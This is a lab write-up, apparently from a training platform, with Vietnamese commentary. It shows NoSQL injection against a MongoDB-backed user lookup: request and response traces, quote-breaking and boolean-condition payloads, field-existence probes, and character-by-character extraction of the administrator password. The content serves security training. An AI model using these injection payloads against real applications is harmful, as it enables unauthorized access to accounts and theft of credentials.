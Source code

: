 # **Lab: Exploiting NoSQL injection to extract data**

> The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.  
 To solve the lab, extract the password for the `administrator` user, then log in to their account.  
  You can log in to your own account using the following credentials: `wiener:peter`.  

# **Solution**

Thực hiện đăng nhập vào ứng dụng web bằng thông tin được cung cấp.  

Sau khi đăng nhập, quan sát lịch sử HTTP, ta thấy có gói tin sau:

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 81

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Sau khi đăng nhập, ứng dụng sẽ yêu cầu và lấy thông tin về ngừoi dùng hiện tại bao gồm `username`, `email`, `role`.  

Nhận thấy req này có thể khai thác, gửi req này tới repeater và chỉnh sửa giá trị tham số `user`:

```
GET /user/lookup?user=wiener HTTP/2
Host: 0a73006604581c338228795600c10063.web-security-academy.net
Cookie: session=7cvdAe3XYRlX5uk3kOiHSVnw7NzuyZkB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a73006604581c338228795600c10063.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

```

```
user=wiener'
```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

{
  "message": "There was an error getting user details"
}
```

Đã gây ra lỗi phía ứng dụng, chứng tỏ việc chèn `'` đã phá vỡ cấu trúc câu truy vấn.  

Thử thêm một vài ký tự giúp truy vấn hợp lệ:

```
user=wiener'%2b'
```

Phản hồi đã trả về bình thường, giờ thêm điều kiện vào truy vấn:

```
# req
user=wiener'&&'1'=='2
encode: user=wiener'%26%26'1'%3d%3d'2

# res
{
  "message": "Could not find user"
}
```

```
# req
user=wiener'&&'1'=='1
encode: user=wiener'%26%26'1'%3d%3d'1

# res
{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

Thành công thêm điều kiện để thực thi phía máy chủ. Nghĩa là chúng ta có thể thêm điều kiện trong truy vấn để lấy thông tin cần thiết.

Mục tiêu là lấy thông tin tài khoản `administrator`.  
Giờ cần xác nhận tài khoản `administrator` tồn tại :

```
# req
user=administrator

# res
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

Giờ kiểm tra lại các req trước. Ta thấy khi đăng nhập, có req gửi đi 2 tham số là `username` và `password`. Có thể đoán rằng tồn tại field `password` dùng để đăng nhập. Giờ cần kiểm tra tồn tại trường `password`:

Trong tệp js lấy thông tin user, ta thấy có các trường username, email, role. Có thể truy cập vào các trường này bằng `this.[field]`.  

Ta sẽ chọn cách kiểm tra `this.[field_name].length`.

```
# req
user=administrator'&&this.username.length>'0
encode: user=administrator'%26%26this.username.length>'0  

# res
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

```
# req
user=administrator'&&this.random_field.length>'0
encode: user=administrator'%26%26this.random_field.length>'0  

# res
{
  "message": "There was an error getting user details"
}
```

Qua phép thử trên thấy được nếu trường không tồn tại thì sẽ có thông báo lỗi `"There was an error getting user details"`. Ngược lại thì sẽ truy xuất bình thường.

Giờ thử với `password`:

```
user=administrator'%26%26this.password.length>'0
```

Nice. Tồn tại trường `password`.  
Tiếp theo cần xác định độ dài chính xác của password tài khoản administrator:

```
user=administrator'%26%26this.password.length=='0
```

> Gửi req trên tới Intruder và thực hiện bruteforce  

Req nào có res trả về thông tin tài khoản là đúng. Ta lấy được độ dài mật khẩu là 8.

Sửa req và lấy từng ký tự trong mật khẩu:

```
user=administrator'%26%26this.password[0]=='a
```

-> password: `vwhcbdsv`

Done~~